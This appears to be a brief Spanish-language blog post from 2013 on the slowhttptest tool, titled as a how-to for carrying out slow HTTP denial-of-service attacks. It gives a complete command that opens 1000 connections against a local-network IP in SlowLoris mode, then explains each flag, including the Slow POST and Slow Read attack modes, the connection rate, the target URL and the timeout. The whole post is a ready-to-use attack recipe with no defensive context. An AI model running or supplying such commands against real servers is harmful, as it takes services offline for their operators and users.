 ```yaml
---
layout: post
title: "slowhttptest"
date: 2013-12-15 15:45
comments: true
categories: 
---
```

Efectuar ataques Slow Http Dos

>$ slowhttptest -c 1000 -H -g -o ataque -i 10 -r 200 -t GET -u http://192.168.1.154 -x 30 -p 3

c (Número de conexiones con límite en 65539)

H (ataque modo SlowLoris enviando paquetes sin completar)

B (ataque modo Slow POST sin terminar de enviar el cuerpo del mensaje)

X (ataque modo Slow Read de lectura de las respuestas http lentas)

g (Generr estadistica en formato html)

o (Archivo de salida)

i (Intervalo de datos por segundo por conexión)

r (Conexiones por segundo)

t (Cabecera a utilizar)

u (URL de destino)

x (Longitud máxima de los datos)

p (Tiempo de espera de respuesta http una vez el servidor se considera inaccesible)

